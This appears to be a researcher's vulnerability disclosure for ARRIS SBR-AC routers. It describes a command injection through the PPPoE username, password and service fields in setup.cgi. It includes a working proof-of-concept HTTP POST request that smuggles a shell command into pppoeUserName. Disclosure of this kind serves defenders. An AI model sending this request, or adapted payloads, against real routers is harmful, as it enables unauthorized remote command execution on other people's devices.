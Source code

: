 # ARRIS Vulnerability

Vendor:ARRIS

Product:SBR-AC1900P、SBR-AC3200P、SBR-AC1200P

Version:1.0.7-B05(Download Link:https://arris.secure.force.com/consumers/ConsumerProductDetail?p=a0ha000000REKViAAP&c=SURFboard%20Routers#panel4)

1.0.7-B05(Download Link:https://arris.secure.force.com/consumers/ConsumerProductDetail?p=a0ha000000OlajgAAB&c=SURFboard%20Routers#panel4)

1.0.5-B05(Download Link:https://arris.secure.force.com/consumers/ConsumerProductDetail?p=a0ha000000RpnMpAAJ&c=SURFboard%20Routers#panel4)

Type:Remote Command Execution

Author:Jiaqian Peng

Institution:pengjiaqian@iie.ac.cn



## Vulnerability description

We found an Command Injection vulnerability  in ARRIS router with firmware which was released recently, allows remote attackers to execute arbitrary OS commands from a crafted request.

**Remote Command Execution**

In `setup.cgi` binary:

In the router's `pppoe ` function, `pppoeUserName、pppoePassword、pppoe_Service` is directly passed by the attacker, so we can control the `pppoeUserName、pppoePassword、pppoe_Service` to attack the OS.

As you can see here, the input has not been checked.And then,call the function `scnvram_set` to store this input.

<div  align="center"><img src="./images/1.png" style="zoom:80%;" /></div>

<div  align="center"><img src="./images/2.png" style="zoom:80%;" /></div>

In `rc` binary:

As you can see here, in `sub_36D64` function, the initial input has not checked and cause command injection.

<div  align="center"><img src="./images/3.png" style="zoom:80%;" /></div>

**Supplement**

In order to avoid such problems, we believe that the string content should be checked in the input extraction part.

> Complete vulnerability verification on SBR-AC1900P product



## PoC

We set `pppoeUserName` as **%27%3Bcd+%2Fproc%3B%2Fusr%2Fsbin%2Fls%3E%2Ftmp%2Fwww%2Fhack3.txt%3B%27** , The meaning of this command is **';cd /proc;/usr/sbin/ls>/tmp/www/hack3.txt;'**，and the router will excute it,such as:

```http
POST /setup.cgi?id=5aac3e8a HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 1317
Origin: http://192.168.1.1
Connection: close
Referer: http://192.168.1.1/RgSetup.htm
Cookie: RebootType=1; 80211Radio_backup=0; 80211Radio=0; PrimaryRadio_backup=0; PrimaryRadio=0
Upgrade-Insecure-Requests: 1

wan_connection_type=2&getdnsautomatially_from_ISP=1&StaticWanIpAddressIP0=&StaticWanIpAddressIP1=&StaticWanIpAddressIP2=&StaticWanIpAddressIP3=&StaticWanIpMaskIP0=&StaticWanIpMaskIP1=&StaticWanIpMaskIP2=&StaticWanIpMaskIP3=&GatewayIpAddressIP0=&GatewayIpAddressIP1=&GatewayIpAddressIP2=&GatewayIpAddressIP3=&pppoeUserName=%27%3Bcd+%2Fproc%3B%2Fusr%2Fsbin%2Fls%3E%2Ftmp%2Fwww%2Fhack3.txt%3B%27&pppoePassword=abc123&pppoe_Service=pjqwudi&pppMtuSize=1492&pptpWanIpAddressIP0=&pptpWanIpAddressIP1=&pptpWanIpAddressIP2=&pptpWanIpAddressIP3=&pptpWanIpMaskIP0=&pptpWanIpMaskIP1=&pptpWanIpMaskIP2=&pptpWanIpMaskIP3=&pptpGatewayIpAddressIP0=&pptpGatewayIpAddressIP1=&pptpGatewayIpAddressIP2=&pptpGatewayIpAddressIP3=&l2tpWanIpAddressIP0=&l2tpWanIpAddressIP1=&l2tpWanIpAddressIP2=&l2tpWanIpAddressIP3=&l2tpWanIpMaskIP0=&l2tpWanIpMaskIP1=&l2tpWanIpMaskIP2=&l2tpWanIpMaskIP3=&l2tpGatewayIpAddressIP0=&l2tpGatewayIpAddressIP1=&l2tpGatewayIpAddressIP2=&l2tpGatewayIpAddressIP3=&pptpUserName=&pptpPassword=&pptp_Server=&pptpMtuSize=1436&l2tpUserName=&l2tpPassword=&L2tpServer=&l2tpMtuSize=1452&MtuSize=1500&SpoofedMacAddressMA0=BC&SpoofedMacAddressMA1=64&SpoofedMacAddressMA2=4B&SpoofedMacAddressMA3=A7&SpoofedMacAddressMA4=DF&SpoofedMacAddressMA5=51&ApplyRgSetupAction=1&WanLeaseAction=0&this_file=RgSetup.htm&next_file=RgSetup.htm
```

<div  align="center"><img src="./images/4.png" style="zoom:80%;" /></div>

<div  align="center"><img src="./images/5.png" style="zoom:80%;" /></div>



## Result

<div  align="center"><img src="./images/6.png" style="zoom:80%;" /></div>
